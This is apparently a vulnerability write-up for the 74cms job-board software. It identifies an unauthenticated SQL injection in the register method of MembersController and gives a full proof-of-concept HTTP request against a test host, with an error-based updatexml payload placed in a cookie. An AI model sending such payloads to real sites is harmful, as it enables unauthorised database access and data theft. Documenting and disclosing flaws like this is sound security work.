 文件：74cms\upload\Application\Home\Controller\MembersController.class.php

方法：register(

是否需登录：不需要

![image](images/img68.png)

```html
url: 
http://74cms.test/index.php?m=&c=Members&a=register
post: 
reg_type=2&utype=2&ucenter=bind&unbind_mobile=1

cookie:
members_uc_info[reg_type]=1;members_uc_info[utype]=2;members_uc_info[mobile][0]=match;members_uc_info[mobile][1][0]=aaaaaaa%22) and updatexml(1,concat(0x7e,(select user())),0) -- a;

headers:
  Content-Type: application/x-www-form-urlencoded
  X-Requested-With: XMLHttpRequest
```

![image](images/img69.png)